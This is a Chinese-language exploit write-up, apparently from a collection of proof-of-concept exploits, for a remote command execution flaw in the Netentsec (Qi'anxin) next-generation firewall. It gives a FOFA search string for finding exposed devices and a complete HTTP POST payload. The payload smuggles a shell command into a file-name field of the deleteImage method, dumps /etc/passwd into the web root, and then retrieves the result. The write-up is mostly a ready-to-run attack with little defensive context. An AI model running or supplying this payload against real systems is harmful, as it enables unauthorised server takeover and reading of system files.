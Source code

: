 # 网康下一代防火墙 RCE

## 漏洞描述

奇安信 网康下一代防火墙存在远程命令执行，通过漏洞攻击者可以获取服务器权限

## 漏洞影响

> [!NOTE]
>
> 奇安信 网康下一代防火墙

## FOFA

> [!NOTE]
>
> app="网康科技-下一代防火墙"

## 漏洞复现

登录页面如下

![](image/qax-4.png)

发送如下请求包

```
POST /directdata/direct/router HTTP/1.1
Host: XXX.XXX.XXX.XXX
Connection: close
Content-Length: 179
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Content-Type: application/json
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

{"action":"SSLVPN_Resource","method":"deleteImage","data":[{"data":["/var/www/html/d.txt;cat /etc/passwd >/var/www/html/test_cmd.txt"]}],"type":"rpc","tid":17,"f8839p7rqtj":"="}

```

再请求获取命令执行结果

```
http://xxx.xxx.xxx.xxxx/test_cmd.txt
```

![](image/qax-3.png)

